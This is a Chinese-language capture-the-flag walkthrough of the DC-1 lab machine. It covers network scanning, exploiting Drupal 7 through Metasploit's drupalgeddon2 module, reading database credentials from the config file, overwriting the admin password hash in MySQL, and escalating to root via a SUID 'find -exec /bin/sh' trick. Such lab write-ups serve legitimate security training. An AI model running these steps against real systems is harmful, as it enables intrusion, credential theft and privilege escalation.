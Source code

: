 ```yaml
---
title: DC - 1
date: 2023-03-15T14:15:55Z
lastmod: 2023-03-20T19:09:08Z
---
```


# DC - 1

---

# 一、环境搭建

---

下载靶机文件解压后使用VMware打开，导入靶机后调整网络连接跟攻击机kali相同的模式（我这里是NAT模式）

​![image](assets/image-20230315142355-fu56v06.png)​

---

# 二、通关教程

---

先使用arps-scan扫描内网存在的IP，也就是靶机的IP，使用的命令如下

```bash
arp-scan -l 
```

​![image](assets/image-20230315142726-fygpix3.png)​

由扫描结果可以看到靶机的IP地址为192.168.225.133，接下来使用nmap对靶机进行端口扫描，使用命令如下

```bash
nmap -A -T4 -sS 192.168.255.133
```

扫描结果如下

​![image](assets/image-20230315180452-o0v0nfx.png)​

由于靶机开启了80端口（HTTP服务），所以先使用浏览器访问该服务，在浏览器输入靶机的IP即可成功访问

​![image](assets/image-20230315180952-a2iy0rf.png)​

使用浏览器插件wapplayer对靶机进行CMS识别，结果如下

​![image](assets/image-20230315181055-gny9ha9.png)​

通过识别结果可以得到靶机的CMS为Drupal7，使用metasploit搜说该CMS的相关漏洞，先启动metasploit，命令如下：

```bash
msfconsole
```

​![image](assets/image-20230315181500-r56ksci.png)​

搜索相关漏洞，命令如下

```bash
search Drupal
```

​![image](assets/image-20230315181546-1mmg34b.png)​

这里通过测试发现只有第二个payload可以使用，使用第二个payload对靶机进行渗透，使用命令如下

```bash
use 1
# 或者 use exploit/unix/webapp/drupal_drupalgeddon2 
```

然后进行参数配置，先查看配置参数再进行相关配置，相关命令如下

```bash
show options
set RHOSTS 192.168.225.133
exploit
```

​![image](assets/image-20230315182624-ak0ze34.png)​

​![image](assets/image-20230315182644-zb8nltb.png)​

成功返回shell后查看靶机该目录存在的文件，发现flag1.txt文件，结果如下：

​![image](assets/image-20230315182940-n6l7ez8.png)​

使用python创建一个交互式shell，使用命令如下

```bash
shell #先返回一个简单的shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

​![image](assets/image-20230315183153-goq82ec.png)​

查看该目录下的flag1.txt的内容，结果如下

​![image](assets/image-20230315183351-dwfof5t.png)​

提示我们查看配置文件，通过查询可知该cms的配置文件的目录如下

```bash
 /sites/default/settings.php
```

读取该文件的内容如下

​![image](assets/image-20230315184430-436j5pf.png)​

可以看的成功得到数据库的用户名和密码，登录该数据库，由于前端有登录界面，所以查看用户登录数据有关的数据表即可，使用的命令如下

```bash
mysql -udbuser -pR0ck3t
show databases;
use drupaldb
show tables;
```

​![image](assets/image-20230315185231-6trwavj.png)​

```bash
select * from users\G;
```

​![image](assets/image-20230315185325-p3fay1j.png)​

发现有账号密码，但是密码加盐，爆破和查询都没办法解密。我们换个思路，往里面插入数据修改账号密码（drupal存在加密脚本，找到脚本后利用加密脚本加密）,脚本的目录如下

```bash
/var/www/scripts
```

使用脚本对自己要修改的密码进行加密，使用命令如下

```bash
php scripts/password-hash.sh 123456
```

​![image](assets/image-20230315190027-qh3t9po.png)​

得到加密后的密码， 接着我们登入mysql修改一下admin的密码，使用命令如下

```bash
mysql -udbuser -pR0ck3t
use drupaldb;
update users set pass = "$S$DUnAAngtcGxNZSnVZC8bh5tMCM5i4AhEEkWoRFz6ki5XK8X/dFv7" where name = 'admin';
```

​![image](assets/image-20230315190328-syjfhan.png)​

回到浏览器，使用admin和123456成功登录，在网页上成功找到flag3，如下

​![image](assets/image-20230315190521-fikxqou.png)​

特殊权限将有助于查找密码 - 但您需要 -exec 该命令才能确定如何获取阴影中的内容。flag3中有两个特别的大写字母 perms 和 find ，根据此前 flag 的形式，使用 find / -name "flag*" 搜索所有开头为 flag 的文件。

​![image](assets/image-20230315190902-nfr8fu7.png)​

成功找到 flag4.txt ，使用 cat /home/flag4/flag4.txt 进行查看。

​![image](assets/image-20230315190948-ri82y59.png)​

flag4提示我们要提权，根据flag3 中另外一个大写字母 perms ，猜测可能需要使用 SUID 提权，使用 find / -user root -perm -4000 -print 2>/dev/null 查找所有具有 SUID 权限且属主为 root 的文件。

```bash
find / -user root -perm -4000 -print 2>/dev/null
```

​![image](assets/image-20230315191222-vqp6nse.png)​

find比较常用，可以执行root权限的命令找查文件，

```bash
find / -name index.php -exec "/bin/sh" \;
```

​![image](assets/image-20230315191338-39mqu9x.png)​

​![image](assets/image-20230315191559-ygvnxef.png)​

‍
